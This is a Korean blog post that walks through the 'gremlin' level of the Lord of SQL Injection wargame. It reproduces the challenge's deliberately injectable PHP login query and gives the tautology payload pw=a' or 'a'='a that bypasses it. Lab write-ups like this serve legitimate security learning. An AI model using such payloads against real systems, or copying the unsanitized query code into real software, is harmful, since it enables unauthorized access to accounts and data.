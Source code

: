 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - gremlin 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


예전에 `LoS` 문제를 풀어본 적 있었다.  

이 때는 [http://los.eagle-jump.org](http://los.eagle-jump.org)에서 풀었었는데, 원작자가 새로운 문제를 추가 해 서비스를 시작했다 해 다시 풀어보게 되었다.  

사이트 주소는 [http://los.rubiya.kr](http://los.rubiya.kr) 이다.  

<!--more-->

`LoS`는 따로 플래그를 입력하는 방식이 아니라 코드 안의 `solve()` 함수가 동작하도록 하면 문제가 풀린다.  

그리고 친절하게 내가 입력 한 값이 어떻게 쿼리에 들어가는지도 보여준다.  

첫 번째 문제는 `gremlin`이다.  

코드는 다음과 같다.  

```php
-----------------------------------------------------------
query : select id from prob_gremlin where id='' and pw=''
-----------------------------------------------------------

<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

문제를 풀기 위해서는 `if($result['id']) solve("gremlin");`에서 조건문을 통과해야 한다.  

즉, 쿼리를 실행했을 때 추출되는 id 값이 있으면 된다.  

실행되는 쿼리는 다음과 같다.  

```php
select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'
```

이 때, `id`와 `pw`의 값은 `GET` 방식으로 받아온다.  

`id`가 뭐든 상관 없기때문에 그냥 쿼리 결과가 참이 될 수 있는 값을 입력하면 될 것 같다.  

쿼리문을 완성하기 위해 아래와 같이 입력했다.  

```
?id=admin&pw=a' or 'a'='a
```

그 결과 아래와 같이 문제를 풀 수 있었다.  

```php
-----------------------------------------------------------------------------
query : select id from prob_gremlin where id='admin' and pw='a' or 'a' = 'a'
-----------------------------------------------------------------------------

GREMLIN Clear!
<?php
  include "./config.php";
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); // do not try to attack another table, database!
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id from prob_gremlin where id='{$_GET[id]}' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysql_fetch_array(mysql_query($query));
  if($result['id']) solve("gremlin");
  highlight_file(__FILE__);
?>
```

`Gremlin Clear!!`